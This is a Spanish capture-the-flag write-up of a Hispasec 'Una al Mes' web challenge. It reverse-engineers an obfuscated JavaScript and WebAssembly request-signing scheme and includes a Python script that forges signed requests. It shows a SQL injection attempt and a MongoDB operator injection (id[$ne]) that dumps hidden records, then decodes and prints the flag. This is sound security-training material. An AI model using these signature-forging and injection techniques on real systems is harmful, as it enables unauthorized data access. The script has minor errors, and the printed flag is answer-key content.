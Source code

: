 # UAM - Matrix - Episode 2

15/04/2019

julianjm - [blog](https://julianjm.github.io) - [telegram](https://t.me/julianjm)

## El reto

> (<a href="https://unaalmes.hispasec.com/challenges#EPISODIO%202">Resumen</a>) Hay que destripar la siguiente web: `http://34.247.69.86/matrix/episodio2/index.php`



## Primeros pasos

Al entrar, vemos información del primer registro (id: 1). Nuestra primera idea es intentar obtener los siguientes registros.

```bash
curl "http://34.247.69.86/matrix/episodio2/index.php?id=2"
[...]
Undefined hash
```

Nos dice que hash no está definido:

```bash
curl "http://34.247.69.86/matrix/episodio2/index.php?id=2&hash=prueba"
[...]
Hash error
```

Entendemos que el servidor espera algún tipo de firma... Probamos a pasar como hash el md5, sha1, sha256, del valor en id, pero siempre vemos el mismo error.

## Javascript + Web Assembly

Investigamos un poco la web, y vemos que hace referencia a un par de ficheros javascript. Empezamos por index.min.js. Lo formateamos con el chrome (pinchando en{}) y obtenemos código parcialmente ofuscado. Buscando en google algunas constantes que aparecen, como 0x28955b88, vemos que se pertenece a una función que realiza el MD5. Vamos bien.

Al final del fichero vemos dos funciones. nono() nos trollea cada vez que hacemos un resize de la página. doIt() es extraña, porque nadie la llama:

```javascript
function doIt(_0x3a59ab) {
    var _0x5482b3 = OMG(_0x3a59ab);
    var _0x32ea98 = '0x' + _0x5482b3[_0x3358('0x13')](0x0, 0x8);
    var _0x38175b = '0x' + _0x5482b3[_0x3358('0x13')](0x8, 0x8);
    var _0x49b2a5 = '0x' + _0x5482b3[_0x3358('0x13')](0x10, 0x8);
    var _0x340f9f = '0x' + _0x5482b3[_0x3358('0x13')](0x18, 0x8);
    return Module[_0x3358('0x14')](_0x32ea98, _0x38175b, _0x49b2a5, _0x340f9f);
}
```

Después de desofuscarla nos queda esto:
```javascript
function doIt(val) {
    var md5 = OMG(val);
    var p1 = '0x' + md5.substr(0, 8);
    var p2 = '0x' + md5.substr(8, 8);
    var p3 = '0x' + md5.substr(16, 8);
    var p4 = '0x' + md5.substr(24, 8);
    return Module['_calc'](p1, p2, p3, p4);
}
```

Poniendo unos *console.log()* vemos que OMG está haciendo el MD5. Posteriormente divide ese hash en 4 partes de 8 `nibbles`, y se los pasa a la función *_calc*...

Probamos a llamarla desde la consola del navegador:

```javascript
doIt(1)
113948091
doIt(2)
-163535797
```

La función *_calc* está definida en main.js. Este fichero parece autogenerado. Es una especie de interfaz entre el navegador y el fichero main.wasm, Web Assembly.

Usaremos wasmdec, que intenta decompilar los webassembly a C. El fichero que genera es bastante grande, pero buscando por *_calc*, vemos estas líneas:

```c
/*
	Function 'fn_4':
		WASM name: '4'
		Export name: '_calc'
*/

int fn_4(int local_0, int local_1, int local_2, int local_3) { 
    // Quitamos mucha paja

	local_11 = local_0;
	local_12 = local_1;
	local_13 = local_2;
	local_14 = local_3;
	local_16 = local_11;
	local_4 = local_12;
	local_5 = local_16 ^ local_4;
	local_6 = local_13;
	local_7 = local_5 ^ local_6;
	local_8 = local_14;
	local_9 = local_7 ^ local_8;
	local_15 = local_9;
	local_10 = local_15;

	return local_10;    //Resumiendo ese churro, devuelve el xor entre los 4 parámetros.
}
```

## Generando hashes

Suponemos que el metodo de hashing utilizado es el de la función *_calc* que acabamos de ver, es decir, md5 y xor de sus 4 bloques de 4 bytes. Volvemos a la carga:

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=113948091"
[...]
Hash error
```

Nos damos cabezazos contra el teclado mientras esperamos que liberen una pista:
> El hash requerido utiliza la string "34.247.69.86/matrix/episodio2/index.php?id=(?)"

Aaaaamigo. Ya sabemos cómo firmar nuestras peticiones. Probamos con el id=1:

```javascript
doIt("34.247.69.86/matrix/episodio2/index.php?id=1")
-1758453311
```

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=-1758453311"
[...]
Hash error
```

Sigue fallando. En este punto ya tenía una función que calculaba los hashes en python, y resulta que los calcula como un entero sin signo. El mismo hash quedaría como 2536513985:

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=2536513985"
[...]
Id: 1<br>Nombre: Morfeo<br>Sexo: Varon
```

Vamos bien. Como nota curiosa, la forma de convertir de entero con signo a sin signo en javascript es hacer uso del operador `>>>` (shift right), que convierte a unsigned. Si le pedimos que cambie 0 bits, nos deja el mismo valor, pero sin signo:

```javascript
doIt("34.247.69.86/matrix/episodio2/index.php?id=1") >>> 0
2536513985
```

## Automatizando con Python

Ahora que sabemos cómo interactuar con la página, vamos a automatizarlo. 

```python
import hashlib
import requests

def calc_hash(val):
    m = hashlib.md5(str(val).encode()).hexdigest()

    p0 = int(m[ 0: 8], 16)
    p1 = int(m[ 8:16], 16)
    p2 = int(m[16:24], 16)
    p3 = int(m[24:32], 16)

    return p0 ^ p1 ^ p2 ^ p3

if len(sys.argv)>1:
    id=sys.argv[1]
    datos_a_firmar="34.247.69.86/matrix/episodio2/index.php?id=" + str(id)
    h=calc_hash(datos_a_firmar)

    r = requests.get("http://34.247.69.86/matrix/episodio2/index.php", {"id":id, "hash":h})
    print(r.text)
else:
    print("python3 makerequest.py <id>)

```

Con este script podemos generar peticiones para parámetrios id arbitrarios. Vemos que hay registros hasta el 7, pero el 8 devuelve vacío.
Intentamos (con cuidado) probar hasta el 100, pero no encontramos nada.
Intentamos también realizar inyecciones SQL del tipo `id="0' or '1'='1"`. Puede que esté más filtrado de la cuenta, o que directamente no sea SQL.

Probamos inyección para Mongodb. Se basa en hacer llegar un array (en lugar de un string) a la función que hace la consulta. La consulta `['id'=>$_GET['id']]`, que en condiciones normales compara *id* con un string, si conseguimos pasarle un array, podemos añadir modificadores.

Por ejemplo, `['id => ['$ne'=>'1']]` buscaría todos registros cuyo *id* sea distinto de 1.

Gracias a PHP, crear arrays es de lo más sencillo. Pasando ?id[hola]=mundo a la petición web, obtenemos en la parte php la siguiente variable $_GET['id'], que contiene el array [ "hola" => "mundo" ].

Modificamos la petición de la función anterior:

```python
r = requests.get("http://34.247.69.86/matrix/episodio2/index.php", {"id[$ne]":id, "hash":h})
```

Nota: Nos damos cuenta de que, aunque pasemos una array, el servidor sigue calculando el hash con el valor final de *id*, en lugar de con el array en sí, lo cual agradecemos, ya que complicaría la inyección enormemente... (o no, nunca lo sabremos, md5(array() devuelve NULL :))

```html
$ python3 makerequest.py 0
[...]
Id: 1<br>Nombre: Morfeo<br>Sexo: Varon
 <br><br>Id: 2<br>Nombre: Trinity<br>Sexo: Mujer
 <br><br>Id: 3<br>Nombre: Oraculo<br>Sexo: Mujer
 <br><br>Id: 4<br>Nombre: Cypher<br>Sexo: Varon
 <br><br>Id: 5<br>Nombre: Dozer<br>Sexo: Varon
 <br><br>Id: 6<br>Nombre: Neo<br>Sexo: Varon
 <br><br>Id: 7<br>Nombre: Mujer de rojo<br>Sexo: Mujer
 <br><br>Id: 57069<br>Nombre: 125:101:115:173:61:60:66:67:62:64:60:71:60:145:64:142:62:70:146:64:62:145:67:63:70:66:62:60:141:64:60:67:65:67:146:62:175<br>Sexo: XXX
```

Bingo!

## Última parte

Por fin vemos datos del último registro. Por fuerza bruta, con ese Id, habríamos tardado un buen rato. 

Solo nos falta decodificarlos. Una simple conversión a ASCII no funciona. Nos damos cuenta (despúes de un rato) que no hay ningún numero 8 ni 9. Podría ser octal.

```bash
$ NUMEROS=`echo 125:101:115:173:61:60:66:67:62:64:60:71:60:145:64:142:62:70:146:64:62:145:67:63:70:66:62:60:141:64:60:67:65:67:146:62:175 | tr ':' ' '`
$ for n in $NUMEROS ; do rax2 ${n}o ; done | rax2 -s

UAM{106724090e4b28f42e738620a40757f2}
```

Ahí, abusando de radare :)

En fin, un buen reto, con muchos temas de los que aprender. Esperando al reto del próximo mes!

